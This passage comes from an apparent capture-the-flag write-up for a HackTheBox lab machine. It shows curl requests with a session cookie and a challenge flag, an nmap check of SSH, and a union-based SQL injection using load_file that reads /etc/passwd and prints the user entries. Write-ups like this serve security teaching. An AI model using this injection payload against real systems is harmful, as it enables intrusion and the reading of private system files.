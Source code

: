 Then we can use that variable whenever we need to authenticate our session. Here we can do the same as above but using out variable instead:

```sh
┌──(root💀kali)-[~/htb/unicode]
└─# curl -s -X POST --cookie "PHPSESSID=$PHPSESSID" --data-binary 'flag=UHC{F1rst_5tep_2_Qualify}' 'http://10.10.11.128/challenge.php' -L
<link href="//maxcdn.bootstrapcdn.com/bootstrap/4.1.1/css/bootstrap.min.css" rel="stylesheet" id="bootstrap-css">
<script src="//maxcdn.bootstrapcdn.com/bootstrap/4.1.1/js/bootstrap.min.js"></script>
<script src="//cdnjs.cloudflare.com/ajax/libs/jquery/3.2.1/jquery.min.js"></script>
<!------ Include the above in your HEAD tag ---------->
<div class="container">
                <h1 class="text-center m-5">Join the UHC - November Qualifiers</h1>
        </div>
        <section class="bg-dark text-center p-5 mt-4">
                <div class="container p-5">
              <h1 class="text-white">Welcome Back!</h1>
              <h3 class="text-white">Your IP Address has now been granted SSH Access.</h3>
                </div>
        </section>
</div>
```

## SSH Access

That's enough playing around, let's check SSH is now open on port 22:

```sh
┌──(root💀kali)-[~/htb/unicode]
└─# nmap -p 22 10.10.11.128
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-09 17:09 GMT
Nmap scan report for 10.10.11.128
Host is up (0.023s latency).

PORT   STATE SERVICE
22/tcp open  ssh
```

It is and we can access SSH now but still need credentials. It's possible to read files using our SQLi, the docs [here](https://dev.mysql.com/doc/refman/8.0/en/string-functions.html#function_load-file) point us to the load_file function. Let's grab the /etc/passwd file to test this:

```sh
┌──(root💀kali)-[~/htb/unicode]
└─# curl -s 10.10.11.128/index.php -d "player=pencer' union select load_file('/etc/passwd') -- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//' 2>&1 | grep "/bin/bash"
root:x:0:0:root:/root:/bin/bash
htb:x:1000:1000:htb:/home/htb:/bin/bash
uhc:x:1001:1001:,,,:/home/uhc:/bin/bash
```

We have three users that can logon. With more enumeration we can read other useful files, eventually I got to the web server config file:
